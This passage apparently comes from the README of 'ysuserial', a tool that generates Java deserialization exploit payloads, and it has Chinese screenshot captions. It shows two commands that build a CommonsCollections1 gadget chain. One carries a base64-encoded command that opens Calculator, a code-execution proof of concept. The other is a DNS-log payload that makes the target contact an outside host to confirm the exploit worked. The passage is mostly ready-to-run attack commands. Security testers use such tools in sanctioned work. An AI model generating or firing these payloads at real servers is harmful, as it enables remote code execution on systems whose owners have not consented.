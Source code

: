 ```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections1 -p PB-lin-b3BlbiAtYSBDYWxjdWxhdG9yLmFwcA==
```

效果图：

![iShot_2022-06-18_20.38.31](images/iShot_2022-06-18_20.38.31.png)

**DNSLOG示例**：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections1 -p 'DL-xxx.org'
```

效果图：
